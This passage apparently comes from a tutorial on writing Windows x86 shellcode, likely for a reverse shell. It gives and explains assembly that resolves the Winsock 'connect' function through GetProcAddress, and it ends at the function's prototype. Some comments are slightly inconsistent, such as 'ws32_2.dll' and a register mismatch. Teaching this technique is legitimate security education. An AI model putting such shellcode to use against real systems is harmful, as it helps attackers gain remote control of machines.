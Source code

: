 <p align="justify">
The following assembly code will be used in order to find the address of the <code  style="background-color: lightgrey; color:black;"><b>connect</b></code> function 
</p>

```c
;; Find the address of connect 
POP  EDI                             ;load previously saved ws2_32.dll address to ECX
ADD  ESP, 0x10                       ;Align stack
XOR  EBX, EBX                        ;zero out EBX
ADD  BL, 0x4                         ;add 0x4 to lower register BL
IMUL EBX, 0x63                       ;EBX = 0x18c
MOV  EDX, [ESP + EBX]                ;EDX has the address of GetProcAddress
PUSH 0x61746365                      ;"atce"
SUB  word [ESP + 0x3], 0x61          ;"tce" (remove "a")
PUSH 0x6e6e6f63                      ;"nnoc"
PUSH ESP                             ;"connect", second argument of GetProcAddress
PUSH EDI                             ;ws32_2.dll address, first argument of GetProcAddress
XCHG ECX, EBP                        ;save socket descriptor to EBP registry for later use
CALL EDX                             ;call GetProcAddress                
```

<p align="justify">
At the first line, <code  style="background-color: lightgrey; color:black;"><b>edi</b></code> register has the address of <code  style="background-color: lightgrey; color:black;"><b>ws2_32.dll</b></code>. At the second line, we are aligning the stack. At lines 3-6, we are getting the address of the <code  style="background-color: lightgrey; color:black;"><b>GetProcAddress</b></code> function. At lines 7-9, we are pushing the string, <b>"connect"</b>, in reverse order due to little endian format. At the tenth line, we are pushing the second argument of <code  style="background-color: lightgrey; color:black;"><b>GetProcAddress</b></code> which is the name of the <code  style="background-color: lightgrey; color:black;"><b>connect</b></code> function. This is done by pushing the <code  style="background-color: lightgrey; color:black;"><b>esp</b></code> register on the stack. Then, we push the first argument of <code  style="background-color: lightgrey; color:black;"><b>GetProcAddress</b></code> on the stack, which is the <code  style="background-color: lightgrey; color:black;"><b>ws32_2.dll</b></code> address. Afterwards, we are saving the socket descriptor we have aquired earlier into the <code  style="background-color: lightgrey; color:black;"><b>ebp</b></code> register to use it later. Then we call <code  style="background-color: lightgrey; color:black;"><b>GetProcAddress</b></code> and then the address of <code  style="background-color: lightgrey; color:black;"><b>connect</b></code> function will be returned in <code  style="background-color: lightgrey; color:black;"><b>eax</b></code> register    
</p>

<b><span style="color:green;font-size:26px">Call the connect function</span></b>

<p align="justify">
Next, we implement the <code  style="background-color: lightgrey; color:black;"><b>connect</b></code> function. According to Microsoft Docs, the <code  style="background-color: lightgrey; color:black;"><b>connect</b></code> function establishes a connection to a specified socket. 
</p>

<code style="background-color: lightgrey; color:black;"><b>connect</b></code> function prototype :

```c
int WSAAPI connect(
  SOCKET         s,
  const sockaddr *name,
  int            namelen
);
```
